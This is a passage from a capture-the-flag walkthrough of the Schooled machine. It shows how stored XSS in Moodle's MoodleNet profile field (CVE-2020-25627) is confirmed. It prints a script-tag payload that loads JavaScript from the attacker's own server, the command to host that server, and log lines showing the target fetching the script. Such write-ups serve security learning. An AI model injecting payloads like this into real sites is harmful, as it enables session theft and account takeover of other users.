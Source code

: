![image-20210401142335290](https://0xdfimages.gitlab.io/img/image-20210401142335290.png)

The Reminder for joining students says that all students need to have a
MoodleNet profile:

![image-20210401142418761](https://0xdfimages.gitlab.io/img/image-20210401142418761.png)

## Shell as www

### Moodle Access as Manuel

#### XXS POC

Any time I see a CTF machine suggest that someone will be checking things, I
wonder if that’s a hint to some kind of automation, and in this case, would
fit with the XSS vulnerabilities I already noticed. [This security
report](https://moodle.org/mod/forum/discuss.php?d=410839#p1657001),
MSA-20-0011: Stored XSS via moodlenetprofile parameter in user profile, seems
to pull all of this together (CVE-2020-25627).

On the profile page, there’s a field for MoodleNet profile:

![image-20210401144331846](https://0xdfimages.gitlab.io/img/image-20210401144331846.png)

To see if this will work, I’ll create a simple payload that attempts to load a
script from my server:

    
    
    <script src="http://10.10.14.7/pwn.js"></script>
    

I’ll start a Python HTTP server (`python3 -m http.server 80`), and submit that
as the MoodleNet profile. Almost instantly I get a hit back form my own IP
trying to fetch the script:

    
    
    10.10.14.7 - - [05/Apr/2021 14:47:18] code 404, message File not found
    10.10.14.7 - - [05/Apr/2021 14:47:18] "GET /pwn.js HTTP/1.1" 404 -
    10.10.14.7 - - [05/Apr/2021 14:47:18] code 404, message File not found
    10.10.14.7 - - [05/Apr/2021 14:47:18] "GET /pwn.js HTTP/1.1" 404 -
    

The script does not exist, so my webserver returns 404 (and it looks like my
browser tried a second time to fetch). That’s a good sign. It indicates that
the `<script>` block was saved into the page, and if someone else tries to
look at it, they will also try to load my script.

Less than a minute later, there’s another hit, from Schooled:

    
    
    10.10.10.234 - - [05/Apr/2021 14:48:01] code 404, message File not found
    10.10.10.234 - - [05/Apr/2021 14:48:01] "GET /pwn.js HTTP/1.1" 404 -
    10.10.10.234 - - [05/Apr/2021 14:50:05] code 404, message File not found
    10.10.10.234 - - [05/Apr/2021 14:50:05] "GET /pwn.js HTTP/1.1" 404 -
    